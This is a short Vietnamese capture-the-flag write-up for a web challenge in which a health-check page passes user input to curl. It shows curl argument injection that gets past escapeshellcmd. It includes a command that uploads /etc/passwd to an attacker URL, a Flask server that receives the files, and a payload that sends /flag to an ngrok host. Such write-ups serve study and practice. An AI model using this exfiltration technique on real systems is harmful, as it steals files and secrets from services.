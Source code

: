 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này có chức năng dùng lệnh __curl trong linux__ nhưng ta không thể thực hiện command injection vì hàm __escapeshellcmd($host)__ đã chặn.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ có thể upload file đến một máy web khác bằng lệnh __curl -X POST -F file=@@/etc/passwd url_attacker__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

ta chạy web để bắt file được gửi về
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)``` 
   
payload  ```http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag``` 
